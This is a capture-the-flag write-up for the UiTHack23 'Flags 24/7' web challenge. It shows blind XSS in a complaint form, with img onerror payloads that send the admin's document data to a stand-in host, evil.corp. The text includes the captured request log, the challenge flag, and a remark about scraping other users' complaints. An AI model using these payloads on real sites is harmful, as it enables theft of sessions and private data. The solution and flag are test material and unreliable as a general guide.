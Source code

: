 # Flags 24/7

# Writeup

Looking at the website I found nothing at a first glance. There is a post which runs a request when pressing the get flag. I'll look more into that if it's not a read herring.

```
curl 'http://motherload.td.org.uit.no:5000/complaint' \
  -H 'Content-Type: application/json' \
  --data-raw '{"email":"test","complaint":"test"}'
```

I sent a few requests but nothing seems to work. So I tried to see if someone was reading those complaints via HTML by sending exactly that, HTML data. Sending the following request while hosting a simple `socat` server using `socat - TCP-LISTEN:1234,fork,reuseaddr`. 

```
curl 'http://motherload.td.org.uit.no:5000/complaint' \
  -H 'Content-Type: application/json' \
  --data-raw '{"email":"<img src='http://evil.corp:1234/email.png'>","complaint":"<img src='http://evil.corp:1234/complaint.png'>"}'
```

Seems to do nothing. So I'll looking at other things in the DOM. I found nothing really exploitable. Everything is local. The  logo is kinda weird it has a weird hash in it:

```
http://motherload.td.org.uit.no:5050/static/media/logoHeader.a2e1f8a09e95fdffdafd.png
```

Seems like nothing, crackstation did not have this hash, neither did google. But it is in the flags 24/7. Woah, there I got something in my socat session!

```bash
ubuntu@vm23152:~$ socat - TCP-LISTEN:1234,fork,reuseaddr
Listening on 0.0.0.0 1234
Connection received on 129.242.219.77 35664
GET /complaint.png HTTP/1.1
Host: evil.corp:1234
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/109.0.5414.74 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://motherload.td.org.uit.no:5000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

Wow, someone actually reads the complaints?  Seems like the complaint field is XSS'able. We're actually dealing with `Blind XSS`. This is when you can kinda add a ticking bomb to the system. You dont know when it is executed but once it does it will be run on the victims machine. So you need to keep your server up to receive the data. Seems like it runs every minute so I'll have to wait one minute for each test.

So I try to see if I can get RCE by getting the document object.

```json
{
	"email": "",
	"complaint": "<script>document.location= 'http://evil.corp:1234/?' + JSON.stringify(document)</script>"
}
```

Not really getting anything. Might be that script is filtered. Opening the [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#dom-based-xss) reminded me of the onerror in image which ofcourse also executes scripts.

```json
{
	"email": "",
	"complaint": "<img src=/ onerror='this.src=\"http://evil.corp:1234/test.png\"'>"
}
```

Oh this worked, lets see if I can get document.cookie:


```json
{
	"email": "",
	"complaint": "<img src=/ onerror='this.src=\"http://evil.corp:1234/test.png?\" + JSON.stringify(document)'>"
}
```

And there we go we got the whole document object: 

```
GET /test.png?{%22location%22:{%22ancestorOrigins%22:{},%22href%22:%22http://motherload.td.org.uit.no:5000/admin?sha256=<REDACTED>%22,%22origin%22:%22http://motherload.td.org.uit.no:5000%22,%22protocol%22:%22http:%22,%22host%22:%22motherload.td.org.uit.no:5000%22,%22hostname%22:%22motherload.td.org.uit.no%22,%22port%22:%225000%22,%22pathname%22:%22/admin%22,%22search%22:%22?sha256=<REDACTED>%22,%22hash%22:%22%22}} HTTP/1.1
Host: tjweb.no:1234
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/109.0.5414.74 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://motherload.td.org.uit.no:5000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US

```

Some quick urlencoding, and prettifying:

```json
{
  "location": {
    "ancestorOrigins": {},
    "href": "http://motherload.td.org.uit.no:5000/admin?sha256=<REDACTED>",
    "origin": "http://motherload.td.org.uit.no:5000",
    "protocol": "http:",
    "host": "motherload.td.org.uit.no:5000",
    "hostname": "motherload.td.org.uit.no",
    "port": "5000",
    "pathname": "/admin",
    "search": "?sha256=<REDACTED>",
    "hash": ""
  }
}
```

I think I'm breaking something I was not supposed to break here. But `motherload.td.org.uit.no:5000` is an external server running the `admin` endpoint. It gives a error `901 NO FLAG HERE`. But adding that redacted sha256 to the url request I get `test`. There is also a script loaded in there which looks like this:

```js
fetch(
  "http://motherload.td.org.uit.no:5000/db?sha256=<REDACTED>"
)
  .then((response) => {
    return response.json();
  })
  .then((data) => {
    displayCocktail(data);
  })
  .catch((error) => console.error("FETCH ERROR:", error));

function displayCocktail(data) {
  document.cookie = "flag=UiTHack23{xxspl0its_4r3_phun}";
  const cocktailDiv = document.getElementById("cocktail");
  try {
    data.forEach((issue) => {
      const cocktailName = document.createElement("div");
      cocktailName.innerHTML = issue[1];
      cocktailDiv.appendChild(cocktailName);
    });
  } catch (e) {}
}

phantom.exit();
```

Here I can see the flag. I also see that the endpoint `db` is showing our complaints once, then deletes them. So I could break it here by curling this endpoint ever 5 seconds and steal all your complaints. `*evil-laughter*`.  The meaning is that we are blind xss'ing the document.cookie as I read it. But I think I went a step further.

# Flag

```
UiTHack23{xxspl0its_4r3_phun}
```

